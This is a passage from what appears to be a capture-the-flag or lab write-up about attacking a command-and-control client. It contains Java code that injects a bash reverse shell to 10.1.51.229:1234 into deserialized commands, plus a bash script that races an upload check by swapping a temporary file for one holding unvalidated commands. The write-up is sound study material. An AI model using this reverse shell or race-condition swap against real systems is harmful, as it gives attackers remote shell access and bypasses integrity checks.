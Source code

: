 ```java
else if(args.length >= 1 && args[0].equals("--test-set")) {
    try {
        FileInputStream fd = new FileInputStream("test");
        System.out.printf("Loading command from %s\n", "test");
        ObjectInputStream in = new ObjectInputStream(fd);
        final Command c = (Command) in.readObject();
        in.close();
        fd.close();
        c.value = "bash -i >& /dev/tcp/10.1.51.229/1234 0>&1";
        client.cfg.pendingCommands.add(c);
    } catch (IOException | ClassNotFoundException e) {
        System.out.printf("Error: %s\n", e.getMessage());
    }
}
```
I added this Java code to the Client file to read executeable commands from test and write new commands to .config. The command payloads are the ones we retrieved from the c2 server, which includes verified/signed payloads. We can now run ```java -jar .client .config``` and it will run the commands without checking for any validation.
### Delvering the payload
![](bilder/11.png)
I ran the python script locally and saw that the file we upload are being temporary saved to /tmp/ as a random name while the script verifies the obj variable which holds a "copy" of our file. Which means that we can upload a files that passes the verification part and replace the tmp file that gets created in /tmp/.
I then created a bash script to automatic look for these tmp files in the shared folder with c2 and archive at the shady-aggregator server.
```bash
#!/bin/bash
while true; do
  # Find the file that starts with "tmp"
  tmp_file=$(find . -name "tmp*" -print)

  # Check if the file was found
  if [ -n "$tmp_file" ]; then
    # Replace the file with ~/.config
    mv "$tmp_file" /tmp/
    cp .config "$tmp_file"
    # Print a message to confirm the replacement
    echo "Replaced $tmp_file with .config"
    break
  else
    # Print an error message if the file was not found
    echo "Error: could not find a file starting with 'tmp'"
  fi
done
```
The .config file would then contain the commands that will execute on client side without verification and the file would be successfully be uploaded as we would upload a file that would pass the verification test and our bash script would automaticly switch the files. The reason why we had to move the tmp file was that we had no write access to the file, but we had permission to move the file.
